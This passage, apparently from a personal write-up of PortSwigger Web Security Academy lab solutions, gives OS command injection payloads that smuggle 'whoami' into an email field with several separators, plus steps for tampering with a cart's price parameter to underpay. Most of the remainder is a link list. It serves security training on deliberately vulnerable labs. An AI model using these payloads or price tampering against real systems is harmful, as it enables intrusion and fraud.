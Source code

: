     v1: ...&email=test@test.com;whoami+>+/var/www/images/whoami.txt;...
    v2: ...&email=test@test.com|whoami+>+/var/www/images/whoami.txt|...
    v3: ...&email=test@test.com||whoami+>+/var/www/images/whoami.txt||...
    v4: ...&email=test@test.com%26whoami+>+/var/www/images/whoami.txt%26...

    https://<lab_url>/product           GET   (productId=1)
    https://<lab_url>/image             GET   (filename=10.jpg)

    filename=whoami.txt
    ```

4. #### **Blind OS command injection with out-of-band interaction**

    ```plaintext
    PENDING UNTIL I GET THE BURP SUITE PRO VERSION
    ```

5. #### **Blind OS command injection with out-of-band data exfiltration**

    ```plaintext
    PENDING UNTIL I GET THE BURP SUITE PRO VERSION
    ```

[command_injection]: https://portswigger.net/web-security/os-command-injection

---

## **[Business Logic Vulnerabilities][business_logic]**

### [Excessive trust in client-side controls][business_logic_1]

1. #### **Excessive trust in client-side controls**

    - After login try to buy the product and take note of the URL flow and the parameters sent, the message  
    ***Not enough store credit for this purchase*** will appear when you try to **Place order**.

    ```plaintext
    ...
    https://<lab_url>/cart      POST    (productId=1&redir=PRODUCT&quantity=1&price=133700)
    ...
    ```

    - **Remove** the product from the cart.
    - Send the **/cart POST** request to the **Repeater**.
    - Set the product **price** to any value below your current balance and repeat the request.
    - Reload the page and proceed to **Place order**  
    (notice that the **Total** becomes the set price).

2. #### **2FA broken logic** (repeated)

    > 📝 **Note:**
    <mark>This example is located within the **Vulnerabilities in multi-factor authentication**
    section of the **Authentication** topic.</mark>

### [Failing to handle unconventional input][business_logic_2]


[web_security_academy]: https://portswigger.net/web-security
[author's_twitter]:     https://www.twitter.com/UDPsycho
[wsa_getting_started]:  https://portswigger.net/web-security/getting-started
[wsa_learning_path]:    https://portswigger.net/web-security/learning-path
[wsa_all_labs]:         https://portswigger.net/web-security/all-labs
[burp_desktop]:         https://portswigger.net/burp/documentation/desktop
[burp_video_tutorials]: https://portswigger.net/burp/pro/video-tutorials
[sql_injection]:                     https://portswigger.net/web-security/sql-injection
[sqli_cheat_sheet]:                  https://portswigger.net/web-security/sql-injection/cheat-sheet
[sqli_retrieving_hidden_data]:       https://portswigger.net/web-security/sql-injection#retrieving-hidden-data
[sqli_subverting_application_logic]: https://portswigger.net/web-security/sql-injection#subverting-application-logic
[sqli_union_attacks]:                https://portswigger.net/web-security/sql-injection/union-attacks
[sqli_examining_the_database]:       https://portswigger.net/web-security/sql-injection/examining-the-database
[sqli_blind]:                        https://portswigger.net/web-security/sql-injection/blind
[sqli_script_conditional_responses]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20responses
[sqli_script_conditional_errors]:    https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/SQL%20Injection/Blind%20SQL%20injection%20with%20conditional%20errors
[authentication]:                    https://portswigger.net/web-security/authentication
[auth_password_based]:               https://portswigger.net/web-security/authentication/password-based
[auth_script_ip_block]:              https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Broken%20brute-force%20protection%20IP%20block
[auth_script_account_lock]:          https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Username%20enumeration%20via%20account%20lock
[auth_multi_factor]:                 https://portswigger.net/web-security/authentication/multi-factor
[auth_other_mechanisms]:             https://portswigger.net/web-security/authentication/other-mechanisms
[auth_script_stay-logged-in_cookie]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Authentication/Brute-forcing%20a%20stay-logged-in%20cookie
[directory_traversal]: https://portswigger.net/web-security/file-path-traversal
[business_logic]:   https://portswigger.net/web-security/logic-flaws
[business_logic_1]: https://portswigger.net/web-security/logic-flaws/examples#excessive-trust-in-client-side-controls
[business_logic_2]: https://portswigger.net/web-security/logic-flaws/examples#failing-to-handle-unconventional-input
[bussiness_logic_script_low_level]: https://github.com/UDPsycho/SecurityLabs/tree/main/Web%20Security%20Academy/Resources/Business%20Logic/Low-level%20logic%20flaw
[business_logic_3]: https://portswigger.net/web-security/logic-flaws/examples#making-flawed-assumptions-about-user-behavior
[business_logic_4]: https://portswigger.net/web-security/logic-flaws/examples#domain-specific-flaws
[business_logic_5]: https://portswigger.net/web-security/logic-flaws/examples#providing-an-encryption-oracle
[information_disclosure]: https://portswigger.net/web-security/information-disclosure
[access_control]: https://portswigger.net/web-security/access-control
[file_upload_vulnerabilities]: https://portswigger.net/web-security/file-upload
[file_upload_vulnerabilities_file_signature]: https://www.garykessler.net/library/file_sigs.html
[ssrf]:                       https://portswigger.net/web-security/ssrf
[ssrf_common_attacks]:        https://portswigger.net/web-security/ssrf#common-ssrf-attacks
[ssrf_blind_vulnerabilities]: https://portswigger.net/web-security/ssrf/blind